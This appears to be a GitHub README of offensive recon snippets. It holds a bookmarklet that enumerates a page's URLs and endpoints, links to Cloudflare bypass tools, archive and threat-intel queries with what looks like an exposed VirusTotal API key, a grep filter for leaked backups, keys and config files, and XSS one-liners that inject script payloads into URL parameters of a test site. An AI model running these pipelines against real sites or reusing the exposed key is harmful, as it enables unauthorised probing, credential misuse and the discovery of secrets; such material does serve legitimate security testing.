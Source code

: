 # web_eb

```javascript
javascript:void(function(){let e=document.createElement('div');e.style.cssText='position:fixed;bottom:0;left:0;width:100%;height:300px;background:#1a1a1a;color:#00ff00;z-index:999999;padding:20px;overflow:auto;font-family:monospace;';e.innerHTML='<h3%20style="color:#00ff00">%F0%9F%94%8D%20BlackLine%20Scanner</h3><div%20id="results">Scanning...</div>';document.body.appendChild(e);let%20currentDomain=window.location.hostname;let%20foundUrls=new%20Set();function%20findUrls(){let%20urls=[];let%20sources=[...document.getElementsByTagName('a'),...document.getElementsByTagName('script'),...document.getElementsByTagName('img'),...document.getElementsByTagName('link'),...document.getElementsByTagName('form')];sources.forEach(element=>{if(element.href)urls.push(element.href);if(element.src)urls.push(element.src);if(element.action)urls.push(element.action);});let%20content=document.documentElement.innerHTML;let%20urlPattern=/(?:url\(|href="|src="|action="|url:|endpoint:|path:|route:)\s*['"]?([^'"\)\s>]+)/gi;let%20match;while((match=urlPattern.exec(content))!==null){if(match[1]&&!match[1].startsWith('data:'))urls.push(match[1]);}let%20scriptPattern=/"[^"]*"|'[^']*'/g;let%20scripts=document.documentElement.innerHTML.match(scriptPattern)||[];scripts.forEach(script=>{let%20urlMatches=script.match(/(?:\/[a-zA-Z0-9_-]+)+(?:\.[a-zA-Z0-9]+)?/g)||[];urlMatches.forEach(url=>urls.push(url));});performance.getEntriesByType('resource').forEach(entry=>urls.push(entry.name));return[...new%20Set(urls)];}let%20allUrls=findUrls();allUrls.sort();document.getElementById('results').innerHTML=`%20<div%20style="margin:10px%200;color:#00ff00">%E2%9C%85%20Found%20${allUrls.length}%20URLs%20&%20Endpoints%20on%20${currentDomain}</div>%20<div%20style="background:#2a2a2a;padding:10px;border-radius:5px">%20${allUrls.map(url=>`<div%20style="color:white;margin:5px%200;padding:5px;background:#333;border-radius:3px;word-break:break-all">${url}</div>`).join('')}%20</div>`;})();
```

- __[1 Cloudflare Bypass](https://github.com/sarperavci/CloudflareBypassForScraping)__
- __[2 Cloudflare Bypass](https://github.com/christophetd/CloudFlair.git)__


### RECON METHOD BY ~/.COFFINXP
```php
https://web.archive.org/cdx/search/cdx?url=*.example.com/*&collapse=urlkey&output=text&fl=original

https://www.virustotal.com/vtapi/v2/domain/report?apikey=982680b1787fa59701919aa22515a025e00df1e3bb2bc4f186b8e919558d576c&domain=example.com

https://otx.alienvault.com/api/v1/indicators/hostname/domain.com/url_list?limit=500&page=1

curl -G "https://web.archive.org/cdx/search/cdx" --data-urlencode "url=*.example.com/*" --data-urlencode "collapse=urlkey" --data-urlencode "output=text" --data-urlencode "fl=original" > out.txt

cat out.txt | uro |  grep -E '\.xls|\.xml|\.xlsx|\.json|\.pdf|\.sql|\.doc|\.docx|\.pptx|\.txt|\.zip|\.tar\.gz|\.tgz|\.bak|\.7z|\.rar|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.gz|\.config|\.csv|\.yaml|\.md|\.md5|\.exe|\.dll|\.bin|\.ini|\.bat|\.sh|\.tar|\.deb|\.rpm|\.iso|\.img|\.apk|\.msi|\.dmg|\.tmp|\.crt|\.pem|\.key|\.pub|\.asc'
```

### xss oneliner

```
echo "testphp.vulnweb.com" | waybackurls | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | urldedupe -s | grep -IE "[?].*[&]?" | grep "=" | unew -p | pvreplace '<sCript>confirm(1)</sCript>, <script>confirm(1)</script>' | xsschecker -match '<sCript>confirm(1)</sCript>, <script>confirm(1)</script>' -vuln
```

- ```echo "testphp.vulnweb.com" | gau | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln```
  __Tools used__
- __[waybackurls](https://github.com/tomnomnom/waybackurls.git)__
- __[urldedupe](https://github.com/ameenmaali/urldedupe.git)__
- __[unew](https://github.com/rix4uni/unew)__
- __[pvreplace](https://github.com/rix4uni/pvreplace)__
- __[xsschecker](https://github.com/rix4uni/xsschecker)__
